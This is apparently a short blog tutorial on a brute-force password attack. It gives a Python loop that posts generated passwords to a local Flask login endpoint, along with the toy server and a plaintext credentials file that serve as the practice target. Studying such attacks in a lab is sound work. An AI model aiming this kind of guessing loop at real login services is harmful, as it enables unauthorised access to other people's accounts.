 ```yaml
---
title: "Simple brute-force attack example"
date: 2020-03-20
---
```


Here is my example of simple brute-force attack that you can perform

__Please make sure that performing brute force attacks on other sites is illegal__

First, you need to write password generating code
Brute-force attack code block in python:
```python
    import requests
    k = 0  # password length
    counter = 0

    alphabet = '0123456789abcdefghijklmnopqrstuvwxyz'
    base = len(alphabet)

    while True:
        password = ''  # password

        # generator code
        i = counter
        while i > 0:
            reminder = i % base
            password = alphabet[reminder] + password
            i = i // base

        password = alphabet[0] * (k - len(password)) + password

        print(counter, password)  # test generated code
        response = requests.post('http://127.0.0.1:5000/auth',
                                 json={'login': 'cat', 'password': password})
        if response.status_code == 200:
            print('SUCCESS, password', password)
            break
        counter += 1
        if password == alphabet[-1] * k:  # max_password_for_given_length
            k += 1
            counter = 0
```

Second, since performing brute-force attack is illegal, I created own the simplest server file `server.py` using `flask` library and database `users.json`.

Note: _in real life user logins and passwords are encrypted and their alphabet is more complex than in this example_

`server.py` file code block:
```python
    import json

    from flask import Flask, request, Response

    app = Flask(__name__)

    stats = {
        'attempts': 0,
        'success': 0,
    }


    @app.route('/')
    def hello():
        return f'Hello, user! stats={stats}'


    @app.route('/auth', methods=['POST'])
    def auth():
        stats['attempts'] += 1

        data = request.json
        login = data['login']
        password = data['password']

        with open('users.json') as users_file:
            users = json.load(users_file)

        # users_file = open('users.json')
        # users = json.load(users_file)
        # users_file.close()

        if login in users and users[login] == password:
            status_code = 200
            stats['success'] += 1
        else:
            status_code = 401

        return Response(status=status_code)


    if __name__ == '__main__':
        app.run()

```

`users.json` file code block:
```json
    {
        "admin": "12345",
        "jack": "black",
        "cat": "dog"
    }
```
